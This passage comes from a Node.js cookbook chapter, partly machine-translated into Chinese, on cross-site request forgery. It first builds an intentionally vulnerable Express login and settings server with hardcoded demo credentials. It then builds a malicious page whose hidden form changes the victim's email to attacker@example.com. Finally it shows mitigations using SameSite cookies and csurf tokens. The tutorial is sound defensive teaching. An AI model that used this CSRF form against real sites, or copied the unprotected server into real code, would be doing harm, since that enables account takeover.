    const bodyParser = require("body-parser");
    const session = require("express-session");
    const app = express();
    const mockUser = {
      username: "beth",
      password: "badpassword",
      email: "beth@example.com",
    };
    app.use(
      session({
        secret: "Node Cookbook",
        name: "SESSIONID",
        resave: false,
        saveUninitialized: false,
      })
    );
    app.use(bodyParser.urlencoded({ extended: false }));
    ```

4.  接下来在`server.js`中，我们需要为我们的服务器定义路由：

    ```js
    app.get("/", (req, res) => {
      if (req.session.user) return res.redirect("/account");
      res.send(`
        <h1>Social Media Account - Login</h1>
        <form method="POST" action="/">
          <label> Username <input type="text" 	name="username"> </label>
          <label> Password <input type="password" 	name="password"> </label>
          <input type="submit">
        </form>
      `);
    });
    app.post("/", (req, res) => {
      if (
        req.body.username === mockUser.username &&
        req.body.password === mockUser.password
      ) {
        req.session.user = req.body.username;
      }
      if (req.session.user) res.redirect("/account");
      else res.redirect("/");
    });
    app.get("/account", (req, res) => {
      if (!req.session.user) return res.redirect("/");
      res.send(`
          <h1>Social Media Account - Settings</h1>
          <p> Email: ${mockUser.email} </p>
          <form method="POST" action="/update">
            <input type="text" name="email" 	value="${mockUser.email}">
            <input type="submit" value="Update" >
          </form>
        `);
    });
    app.post("/update", (req, res) => {
      if (!req.session.user) return res.sendStatus(403);
      mockUser.email = req.body.email;
      res.redirect("/");
    });
    ```

5.  然后，在`server.js`中添加以下内容以启动服务器：

    ```js
    app.listen(3000, () => {
      console.log("Server listening on port 3000");
    });
    ```

现在，我们准备好进入配方步骤。

## 怎么做…

在配方的第一步中，我们将创建一个可以复制 CSRF 攻击的恶意网页。之后，我们将学习如何保护我们的 Express.js 服务器免受这些攻击。

您的步骤的格式应如下所示：

1.  启动服务器：

    ```js
    $ node server.js
    Server listening on port 3000
    ```

2.  Navigate to `http://localhost:3000` in your browser and expect to see the following HTML login form. Enter the username `beth` and password `badpassword` and click **Submit**:

    

    图 9.13–社交媒体帐户登录页面

3.  Once logged in, you should be taken to the **Settings** page of the demo social media profile. Notice that there's a single field to update your email. Try updating the email to something else. You should see that the update is reflected after clicking **Update**:

    

    图 9.14–社交媒体帐户设置页面

4.  现在，我们要创建我们的恶意网页。创建一个名为`csrf-server.js`的文件。这就是我们将构建恶意网页的地方：

    ```js
    $ touch csrf-server.js
    ```

5.  添加以下代码创建恶意网页：

    ```js
    const http = require("http");
    const attackerEmail = "attacker@example.com";
    const server = http.createServer((req, res) => {
      res.writeHead(200, { "Content-Type": "text/html" });
      res.end(`
    <iframe name=hide style="position:absolute;left:-1000px"></iframe>
    <form method="post" action="http://localhost:3000/update" target="hide">
    <input type="hidden" name="email" value="${attackerEmail}">
    <input type="submit" value="Click this to win!">
    </form>`);
    });
    server.listen(3001, () => {
      console.log("Server listening on port 3001");
    });
    ```

6.  In a second Terminal window, start the `csrf-server.js` server:

    ```js
    $ node csrf-server.js
    Server listening on port 3001
    ```

    重要提示

    在真正的 CSRF 攻击中，我们希望攻击来自不同的域到易受攻击的服务器。然而，由于 web 浏览器安全性的提高，许多 CSRF 攻击都是通过浏览器来防止的。出于本配方的目的，我们将演示对同一域的攻击。请注意，CSRF 攻击在今天仍然是可能的，特别是许多用户可能正在使用没有最新安全功能的旧浏览器来抵御 CSRF 攻击。

7.  Navigate to `http://localhost:3001` in your browser and expect to see the following output showing a single button:

    

    图 9.15–显示可疑“单击此按钮获胜！”按钮的恶意 CSRF 网页

8.  点击**点击此按钮赢取！**按钮。通过点击按钮，HTTP POST 请求被发送到`http://localhost:3000/update`，正文中包含`attacker@example.com`电子邮件。通过单击此按钮，HTTP POST 请求已发送到真实网站的服务器，利用浏览器中存储的 cookie。
9.  Go back to the social media profile page and refresh. We'll see that the attacker has managed to update the email address:

    

    图 9.16–社交媒体帐户设置页面显示更新至的电子邮件 attacker@example.com

10.  现在，让我们修复服务器，使其不易受到 CSRF 攻击。首先，将`server.js`文件复制到名为`fixed-server.js`：

    ```js
    $ cp server.js fixed-server.js
    ```

    的文件中
11.  To fix the server, we need to add some additional configuration to the `express-session` middleware. Change the `express-session` configuration to the following:

    ```js
    app.use(
      session({
        secret: "AI overlords are coming",
        name: "SESSIONID",
        resave: false,
        saveUninitialized: false,
        cookie: { sameSite: true },
      })
    );
    ```

    注意增加了`{ cookie : { sameSite : true }}`配置。

12.  现在，停止原服务器后，启动`fixed-server.js`：

    ```js
    $ node fixed-server.js
    Server listening on port 3000
    ```

13.  返回`http://localhost:3000`并使用与之前相同的凭据重新登录。然后，在第二个浏览器选项卡中，访问`http://127.0.0.1:3001`（`csrf-server.js`应仍在运行）并再次单击按钮。您会发现，这次点击按钮不会更新**社交媒体账户-设置**页面上的电子邮件。如果我们打开**Chrome 开发工具****控制台**，我们甚至可以看到**403（禁止）**错误，确认我们的更改阻止了攻击：


图 9.17–Chrome DevTools 窗口显示 403（禁止）我们的 CSRF 请求

该配方已证明了一种简单的 CSRF 攻击及其相关风险。我们通过使用`express-session`中间件提供额外的配置来缓解该漏洞。

## 它是如何工作的…

在配方中，我们演示了一个简单的 CSRF 攻击。攻击者精心设计了一个恶意网站，利用社交媒体网站的 cookie 将用户的电子邮件更新为自己的电子邮件。这是一个危险的漏洞，因为一旦攻击者将电子邮件更新为自己的电子邮件，他们就可以控制该帐户。

为了缓解此漏洞，我们将`express-session`中间件传递给`{ cookie : { sameSite : true }}`配置。cookie 头的`SameSite`属性可以设置为以下三个值：

*   `none`：cookie 可以在包括跨来源请求在内的所有上下文中共享和发送。
*   `lax`：允许 cookie 与第三方网站发起的 HTTP GET 请求共享，但仅当它导致顶级导航时。
*   `strict`：只有当 cookie 与当前站点 URL 匹配时，才能通过第一方上下文中的请求发送 cookie。

在`express-session`中间件配置中设置`{ sameSite : true }`配置选项等同于将`Set-Cookie : SameSite`属性设置为`strict`模式。

检查配方中请求的头将显示一个类似于以下内容的`Set-Cookie`头：

```js
Set-Cookie: 
SESSIONID=s%3AglL_...gIvei%2BEs; Path=/; HttpOnly; SameSite=Strict
```

## 还有更多…

一些较旧的浏览器不支持`Set-Cookie SameSite`头属性。处理这些情况的策略是生成反 CSRF 令牌。反 CSRF 令牌存储在用户会话中，这意味着攻击者需要访问会话本身才能进行攻击。

我们可以使用名为`csurf`的模块帮助实现反 CSRF 令牌：

1.  仍在`express-csrf`目录中，将`fixed-server.js`复制到名为`csurf-server.js`：

    ```js
    $ cp fixed-server.js csurf-server.js
    ```

    的新文件中
2.  安装`csurf`模块：

    ```js
    $ npm install csurf
    ```

3.  接下来，我们需要导入并初始化`csruf-server.js`文件中的`csurf`模块。在`express-session`导入下方添加以下行：

    ```js
    const csurf = require("csurf");
    const csrf = csurf();
    ```

4.  Then, we need to alter the HTTP GET request handler to use the `csrf` middleware. We achieve this by supplying it as the second parameter to the `get()` method of the `/account` route handler:

    ```js
    app.get("/account", csrf, (req, res) => {
      if (!req.session.user) return res.redirect("/");
      res.send(`
          <h1>Social Media Account - Settings</h1>
          <p> Email: ${mockUser.email} </p>
          <form method="POST" action="/update">
            <input type="hidden" name="_csrf" value="${req.	csrfToken()}">
            <input type="text" name="email" 	value="${mockUser.email}">
            <input type="submit" value="Update" >
          </form>
        `);
    });
    ```

    在 HTML 模板中，我们使用`req.csrfToken()`方法生成`csrfToken`并将其注入请求对象。我们将令牌作为名为`_csrf`的隐藏字段注入 HTML 模板。`csrf`中间件查找具有该名称的令牌。

5.  We also need to update the `post()` method of our `/update` route handler to use the `csrf` middleware:

    ```js
    app.post("/update", csrf, (req, res) => {
      if (!req.session.user) return res.sendStatus(403);
      mockUser.email = req.body.email;
      res.redirect("/")
    });
    ```

    在 HTTP POST 请求时，`csrf`中间件将检查请求的主体，以获取存储在`_csrf`字段中的令牌。然后，中间件使用存储在用户会话中的令牌验证提供的令牌。

6.  启动服务器：

    ```js
    $ node csurf-server.js
    Server listening on port 3000
    ```

7.  Navigate to `http://localhost:3000` and log in with the same username and password as used in the recipe. Click on **View Page Source** on the **Social Media Account - Settings** page. You should see the following HTML showing the hidden `_csrf` field:

    ```js
    <html>
    	<head></head>
    	<body>
    	<h1>Social Media Account - Settings</h1>
          <p> Email: beth@example.com </p>
          <form method="POST" action="/update">
            <input type="hidden" name="_csrf" 	value="r3AByUA1-csl3hIjrE3J4fB6nRoBT8GCr9YE">
            <input name="email" value="beth@example.com">
            <input type="submit" value="Update">
          </form>
        </body>
    </html>
    ```

    你应该能够像以前一样更新电子邮件。

`csurf`中间件有助于在不支持`Set-Cookie:SameSite`属性的旧浏览器中降低 CSRF 攻击的风险。然而，即使使用`csurf`中间件，我们的服务器仍可能容易受到更复杂的 CSRF 攻击。攻击者可以使用 XSS 获取 CSRF 令牌，然后使用`_csrf`令牌发起 CSRF 攻击。然而，在缺乏`Set-Cookie:SameSite`属性支持的情况下，这是最好的缓解措施。

通过使攻击者必须创建的攻击更加复杂来减慢攻击者的速度是降低风险的有效方法。许多攻击者会一次尝试利用多个网站进行攻击–如果他们遇到一个需要更长时间才能利用的网站，他们通常会为了时间而转移到另一个网站。

## 另见

*   [*第 6 章*](06.html#_idTextAnchor165)*探索 Node.js web 框架*中的*使用 Express.js*配方构建 web 应用
*   本章中使用 Express.js 配方的*认证*
*   本章中的*使用头盔*设置 HTTP 头
*   本章中的*防范 HTTP 参数污染攻击*配方
*   本章中的*防止 JSON 污染*配方
*   本章中的*防止跨站点脚本攻击*方法
*   [*第 12 章*](12.html#_idTextAnchor379)*调试节点 js*